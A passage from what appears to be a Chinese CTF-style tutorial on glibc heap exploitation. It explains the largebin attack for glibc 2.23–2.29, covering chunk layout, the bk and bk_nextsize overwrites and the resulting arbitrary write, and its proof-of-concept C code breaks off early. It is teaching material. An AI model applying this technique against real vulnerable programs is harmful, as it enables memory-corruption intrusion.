 # unsortedbin attack

施工中

# largebin attack

## 适用版本

`Latest`，但漏洞利用点不同

## glibc2.23 - glibc2.29

### 利用方式

**堆块布置**：

- 确保两个`chunk`位于`unsortedbin`，其中`chunk_a`用于切割，`chunk_b`用于挂入`largebin`来触发`largebin attack`
- 确保`chunk_c`已经位于`largegbin`
- 确保`chunk_b`和`chunk_c`的大小属于**同一个**`largebin`
- 大小：`chunk_a < chunk_c < chunk_b`

**漏洞利用：**

- 控制`chunk_c`的`bk`的值为要修改的第一个值的地址减去`0x10`
- 控制`chunk_c`的`bk_nextsize`的值为要修改的第二个值的地址减去`0x20`
- 进行一次`malloc`，切割`chunk_a`的同时会将`chunk_b`挂入`largebin`，触发`largebin attack`

### 实现效果

任意地址写堆地址，一次攻击可以在两个地方写下堆地址，即挂入`largebin`的`chunk_b`的地址

### 常用触发方式

**至少**需要`UAF`来控制位于`largebin`的`chunk`

### 图解

![largebin_attack_2.27](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202402211519517.png)

### POC

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    printf("In glibc2.27, we can modify two values once a time.\n");
    size_t value1 = 0, value2 = 0;
    printf("Before attack the value of value1 is 0x%lx, and the value of value2 is 0x%lx.\n", value1, value2);

    size_t* chunk_c = malloc(0x440); // 需要使其位于largebin
    malloc(0x10);

    size_t* chunk_a = malloc(0x410); // 用于切割的chunk_a
```